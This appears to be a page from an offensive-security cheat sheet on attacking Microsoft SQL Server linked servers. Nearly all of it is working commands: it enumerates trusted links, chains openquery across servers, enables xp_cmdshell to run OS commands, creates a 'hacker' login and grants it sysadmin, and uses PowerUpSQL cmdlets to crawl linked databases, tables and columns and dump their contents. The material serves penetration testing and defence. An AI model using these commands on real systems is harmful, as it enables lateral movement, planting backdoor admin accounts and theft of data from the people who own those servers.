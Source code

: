 # MSSQL - Linked Database

## Summary

- [Find Trusted Link](#find-trusted-link)
- [Execute Query Through The Link](#execute-query-through-the-link)
- [Crawl Links for Instances in the Domain](#crawl-links-for-instances-in-the-domain)
- [Crawl Links for a Specific Instance](#crawl-links-for-a-specific-instance)
- [Query Version of Linked Database](#query-version-of-linked-database)
- [Execute Procedure on Linked Database](#execute-procedure-on-linked-database)
- [Determine Names of Linked Databases](#determine-names-of-linked-databases)
- [Determine All the Tables Names from a Selected Linked Database](#determine-all-the-tables-names-from-a-selected-linked-database)
- [Gather the Top 5 Columns from a Selected Linked Table](#gather-the-top-5-columns-from-a-selected-linked-table)
- [Gather Entries from a Selected Linked Column](#gather-entries-from-a-selected-linked-column)


## Find Trusted Link


```sql
select * from master..sysservers
```


## Execute Query Through The Link

```sql
-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## Crawl Links for Instances in the Domain 

A Valid Link Will Be Identified by the DatabaseLinkName Field in the Results


```ps1
Get-SQLInstanceDomain | Get-SQLServerLink -Verbose
select * from master..sysservers
```


## Crawl Links for a Specific Instance

```ps1
Get-SQLServerLinkCrawl -Instance "<DBSERVERNAME\DBInstance>" -Verbose
select * from openquery("<instance>",'select * from openquery("<instance2>",''select * from master..sysservers'')')
```


## Query Version of Linked Database

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DBSERVERNAME\DBInstance>`",'select @@version')" -Verbose
```


## Execute Procedure on Linked Database

```ps1
SQL> EXECUTE('EXEC sp_configure ''show advanced options'',1') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('EXEC sp_configure ''xp_cmdshell'',1;') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('exec xp_cmdshell whoami') at "linked.database.local";
```


## Determine Names of Linked Databases 

> tempdb, model ,and msdb are default databases usually not worth looking into. Master is also default but may have something and anything else is custom and definitely worth digging into. The result is DatabaseName which feeds into following query.

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from sys.databases')" -Verbose
```


## Determine All the Tables Names from a Selected Linked Database

> The result is TableName which feeds into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from <DatabaseNameFromPreviousCommand>.sys.tables')" -Verbose
```


## Gather the Top 5 Columns from a Selected Linked Table

> The results are ColumnName and ColumnValue which feed into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select TOP 5 * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand>')" -Verbose
```

## Gather Entries from a Selected Linked Column


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`"'select * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand> where <ColumnNameFromPreviousCommand>=<ColumnValueFromPreviousCommand>')" -Verbose
```

